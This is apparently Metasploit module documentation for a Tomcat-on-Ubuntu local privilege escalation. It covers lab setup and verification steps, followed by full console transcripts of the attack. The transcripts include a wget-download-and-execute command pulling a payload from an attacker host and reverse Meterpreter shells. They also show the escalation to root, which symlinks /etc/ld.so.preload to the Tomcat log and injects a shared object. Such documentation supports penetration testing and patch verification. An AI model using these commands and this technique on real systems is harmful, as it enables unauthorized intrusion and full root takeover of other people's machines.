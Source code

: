 ## Vulnerable Application

Tomcat (6, 7, 8) packages provided by default repositories on Debian-based
distributions (including Debian, Ubuntu etc.) provide a vulnerable
tomcat init script that allows local attackers who have already gained access
to the tomcat account (for example, by exploiting an RCE vulnerability
in a java web application hosted on Tomcat, uploading a webshell etc.) to
escalate their privileges from tomcat user to root and fully compromise the
target system.

Tested against Tomcat 8.0.32-1ubuntu1.1 on Ubuntu 16.04

### Install

This will install Tomcat 8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04 using the build from
[launchpad](https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282)

We also change the `tomcat8` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
sudo apt-get install libecj-java build-essential
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/libtomcat8-java_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8-common_8.0.32-1ubuntu1.1_all.deb
sudo dpkg -i *tomcat*.deb
sudo sed -i 's|/bin/false|/bin/bash|g' /etc/passwd
```

You can now `su tomcat8` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user (may be version dependent like `tomcat8`)
4. Do: `use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### CATALINA

Location of `catalina.out` file. Defaults to `/var/log/tomcat8/catalina.out`.

## Scenarios

### Tomcat8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04

Initial shell

```
msf > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(multi/script/web_delivery) > set target 7
target => 7
msf exploit(multi/script/web_delivery) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/TymOdj7T0Wc
[*] Server started.
[*] Run the following command on the target machine:
wget -qO NaXlMbmV --no-check-certificate http://1.1.1.1:8080/TymOdj7T0Wc; chmod +x NaXlMbmV; ./NaXlMbmV& disown
[*] 2.2.2.2    web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (1017704 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59862) at 2023-01-16 07:23:48 -0500

msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat8
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set verbose true
verbose => true
msf exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set session 1
session => 1
msf exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 8.0.32.pre.1ubuntu1.1
[*] Creating backup of /var/log/tomcat8/catalina.out
[+] Original /var/log/tomcat8/catalina.out backed up to /root/.msf4/loot/20230116072430_default_2.2.2.2_varlogtomcat8_824428.txt
[*] Uploading Payload to /tmp/.SG5N9O
[*] Writing '/tmp/.SG5N9O' (250 bytes) ...
[*] Compiling exploit stub: /tmp/.INpf7Gw.so
[*] Deleting /var/log/tomcat8/catalina.out
[*] Creating symlink from /etc/ld.so.preload to /var/log/tomcat8/catalina.out
[+] Waiting 1800 seconds on tomcat to re-open the logs aka a Tomcat service restart
[*] Sleeping for 2 seconds before attempting again
[*] Sleeping for 4 seconds before attempting again
[*] Sleeping for 8 seconds before attempting again
[*] Sleeping for 16 seconds before attempting again
[*] injecting /tmp/.INpf7Gw.so into /etc/ld.so.preload
[*] Escalating payload privileges via SUID binary (sudo)
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[+] Deleted /tmp/.SG5N9O
[+] Deleted /tmp/.INpf7Gw.so
[!] Tried to delete /var/log/tomcat8/catalina.out, unknown result
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:59866) at 2023-01-16 07:24:55 -0500

meterpreter > getuid
Server username: root
```
